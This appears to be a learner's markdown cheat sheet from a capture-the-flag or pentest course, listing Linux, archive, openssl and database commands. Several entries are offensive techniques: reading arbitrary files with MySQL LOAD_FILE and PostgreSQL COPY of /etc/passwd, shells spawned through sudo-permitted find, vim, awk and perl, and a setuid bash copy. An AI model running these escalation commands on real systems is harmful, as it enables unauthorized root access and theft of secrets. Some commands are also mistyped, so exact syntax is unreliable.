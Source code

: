 
## Day 1
#### find /dir -type f-name name -exec grep -H '^keyword' {} \;

### Decompressing files
#### tar -xjf file.tbz
#### tar -xzf file.tgz
#### bunzip2 file.bz2

### Encrypting and Decrypting files with openssl
https://robertheaton.com/2013/07/29/padding-oracle-attack/
#### openssl enc -d -aes256 -k KEY -in enc.tgz.enc -out out.tgz

#### Data stays longer in /var/tmp then /tmp dir

### Cronjobs
Never leave credentials in cron jobs.

<!-- $1 = md5crypt $5 = sha256 $6 = sha512 -->
### See services runing in a system
#### ps -edf

### Intresting Directory
#### /var/lib/mysql/mysql

### Read arbitary file when logged in as mysql using load_file() function
#### SELECT LOAD_FILE('/var/lib/password.txt');

### Postgresql 
#### psql 

| List Database | Connect To Database | List Tables | Read Data from Tables | Create Table |
| ---|---| --- | --- | --- |
| \list | \c database_name | \d | SELECT * FROM table_name; | CREATE TABLE tname(column data); |

| Copy Arbitary File to Table | DELETE TABLE |
| --- | --- |
| COPY tname '/etc/passwd'; | DROP TABLE tname; |

### Sqlite 
Poratble Database
|List Tables| Read Data From Table |
|---| -- |
|.tables| SELECT * FROM tablename;|

### Privilege Escalation abusing find command
##### sudo -u user find /etc -name passwd -type f -exec bash \;
##### sudo -u user find /usr/bin -name password.txt -type f -exec cat {} \;

### Privilege Escalation abusing vim
##### sudo -u user vim -c ':!/bin/sh'

### Privilege Escalation abusing awk
##### sudo -u user awk 'BEGIN {system("/bin/bash")}'
##### sudo -u user awk {'print $1'} ~/flag.txt

### Privilege Escalation abusing perl
#### sudo -u victim perl -e 'exec "/bin/sh";'

### Privilege Escalation with cp and chmod
#### Copy the /bin/bash to /tmp/test
#### chmod +xs /tmp/test && ./test
#### $test
#### Create following file hello :
int main (void)
{
system("cat /home/victim/key.txt");
}

#### sudo -u user cp hello /tmp/test
#### sudo -u user chmod +xs /tmp/test && ./test
### Create wordlist for testing opensource projects
#### find | sed 's/\.//g' > ffufwordlist.txt

